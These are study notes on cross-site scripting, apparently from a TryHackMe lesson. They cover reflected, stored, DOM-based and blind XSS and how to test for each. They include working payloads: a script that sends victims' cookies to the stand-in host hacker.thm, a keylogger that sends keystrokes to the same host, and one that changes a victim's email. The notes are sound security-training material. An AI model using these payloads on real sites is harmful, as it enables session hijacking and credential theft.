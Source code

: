 ## What is it?
Where malicious JavaScript gets injected into a web application with the intention of being executed by other users
# XSS Payloads:
The payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

The intention is what you wish the JavaScript to actually do, the modification is the changes to the code we need to make it execute as every scenario is different
## Checking for XXS
Demonstrate that you can achieve XSS on a website by causing an alert box to pop up on the page with a string of text, for example:
```
<script>alert('1');</script>
```
### Session Stealing
Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.
```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
### **Key Logger:**
The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```
### Business Logic:
calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:
```
<script>user.changeEmail('attacker@hacker.thm');</script>
```
Now that the email address for the account has changed, the attacker may perform a reset password attack.
# Types of XSS
## Reflected XSS
Happens when user-supplied data in an HTTP request is included in the webpage source without any validation.
### Example:
A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the **error** parameter in the query string and is built directly into the page source.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/a5b0dbc4d2f1f69988f82f2c5d53f6ed.png)
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/7f90b73106d655b07874943f93533f7b.png)

Can be used per this scenario:
![8e3bffe500771c03366de569c3565058.png](Cybersecurity/Screenshots/8e3bffe500771c03366de569c3565058.png)
### **Potential Impact:**  
The attacker could send links or embed them into an iframe on another website containing a JavaScript payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information.
### **How to test for Reflected XSS:**
You'll need to test every possible point of entry; these include:

- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)  

Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected
## Stored XSS
The XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.
### Example
A blog website that allows users to post comments. Unfortunately, these comments aren't checked for whether they contain JavaScript or filter out any malicious code. If we now post a comment containing JavaScript, this will be stored in the database, and every other user now visiting the article will have the JavaScript run in their browser.
![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/cc2566d297f7328d91bc8552f902210e.png)
### How to Test for Stored XSS:
You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:  

- Comments on a blog
- User profile information  
- Website Listings  

Sometimes developers think limiting input values on the client-side is good enough protection, so changing values to something the web application wouldn't be expecting is a good source of discovering stored XSS, for example, an age field that is expecting an integer from a dropdown menu, but instead, you manually send the request rather than using the form allowing you to try malicious payloads. 

Once you've found some data which is being stored in the web application,  you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected
## DOM Based XSS
### What is DOM?
DOM stands for **D**ocument **O**bject **M**odel and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document, and this document can be either displayed in the browser window or as the HTML source. A diagram of the HTML DOM is displayed below:
![24a54ac532b5820bf0ffdddf00ab2247.png](Cybersecurity/Screenshots/24a54ac532b5820bf0ffdddf00ab2247.png)
### Exploiting the DOM
DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.
#### Example
The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.
### How to Test
DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "**window.location.x**" parameters.

When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as **eval()**.

Look for `eval()` JavaScript method being used in source code.
## Blind XSS
Your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.
### Example
A website has a contact form where you can message a member of staff. The message content doesn't get checked for any malicious code, which allows the attacker to enter anything they wish. These messages then get turned into support tickets which staff view on a private web portal.
### How to Test:
you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

A popular tool for Blind XSS attacks is [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express). Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more
